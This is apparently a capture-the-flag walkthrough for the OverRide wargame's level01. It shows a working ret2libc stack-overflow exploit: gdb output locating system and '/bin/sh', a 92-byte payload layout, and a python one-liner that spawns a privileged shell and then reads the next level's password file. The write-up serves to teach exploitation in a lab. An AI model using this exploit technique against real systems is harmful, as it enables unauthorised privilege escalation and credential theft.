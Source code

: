 # level01

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

<hr>

## Solution

From the [disassembled binary](./source.s) we can understand, that there is no shell callers.
But unlike [level00](./../level00/walkthrough.md), there are `NX disabled` mark in the header.

This means that the binary was linked with `-z execstack` - it allows to execute instructions placed on the stack.

Let's look at the [source](./source.c) code:
```c
char a_user_name[100];
...
int main() {
    ...
    char pass[64];
    ...
    fgets(a_user_name, 0x100, stdin);
    ...
    fgets(pass, 0x64, stdin);
    ...
}
```

We see, that in both cases `fgets` tries to read more characters than the size of a buffer.

So, we're going to use `ret2libc` by overflowing `pass` array.

First, we need the address of a `system` and `/bin/sh` string:
```bash
(gdb) info proc map
process 1855
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

To overwrite `main`'s return address, we need to pass the following payload to the `pass` array:
```
64 bytes to fill array + 
 4 bytes to fill int passed +
 4 bytes to fill saved ebx +
 4 bytes to fill saved edi +
 4 bytes to fill saved ebp +
 4 bytes to overwrite return address of main +
 4 bytes to fill return address of the system +
 4 bytes to pass argument to system ('/bin/sh')
 = 92 bytes
```

To overflow `pass` array, we need to pass username validation, so we must pass `dat_wil\n` first, to trigger the first `fgets` to read only 8 bytes and stop.

Now, let's exploit:
```bash
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "X" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "X" * 4 + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
whoami
level02
pwd
/home/users/level01
cd ../level02
ls -la   
total 21
dr-xr-x---+ 1 level02 level02   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level02 level02  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level02 level02 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
-rw-r--r--+ 1 level02 level02   41 Oct 19  2016 .pass
-rw-r--r--  1 level02 level02  675 Sep 10  2016 .profile
cat .pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

## References
- [Stack overflow preparation](https://snovvcrash.rocks/2019/10/20/classic-stack-overflow.html)
- [ret2libc](https://wiki.bi0s.in/pwning/return2libc/return-to-libc/)

